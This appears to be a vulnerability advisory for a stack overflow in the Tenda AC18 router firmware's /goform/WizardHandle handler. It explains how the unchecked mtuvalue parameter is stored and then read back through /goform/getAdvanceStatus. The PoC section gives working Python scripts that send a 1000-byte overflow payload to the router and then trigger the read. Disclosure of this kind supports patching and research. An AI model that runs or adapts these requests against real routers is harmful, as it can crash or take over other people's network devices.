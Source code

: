 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/WizardHandle` url. The `v37` variable receives the `mtuvalue` parameter from a POST request and is stored in the configuration item named`wan1.dynamicMTU` through the SetValue function.In order to execute this case branch, the value of WANT needs to be set to 0. In order to parse %d as 1, it is also necessary to set the value of the `WANS` parameter to 1.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_170749.png)

`wan1.dynamicMTU`  configuration item can  be retrieved through the GetValue function in the `/goform/getAdvanceStatus` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_171604.png)

In order to execute this case branch, The `v26` variable needs to be set to 0.So, in the `/goform/WizardHandle` URL, the value of the `WANT` parameter needs to be set to 0.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_171954.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WizardHandle"
payload = "a"*1000

data = {"WANT": "0","WANS":"1","mtuvalue":payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getAdvanceStatus"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)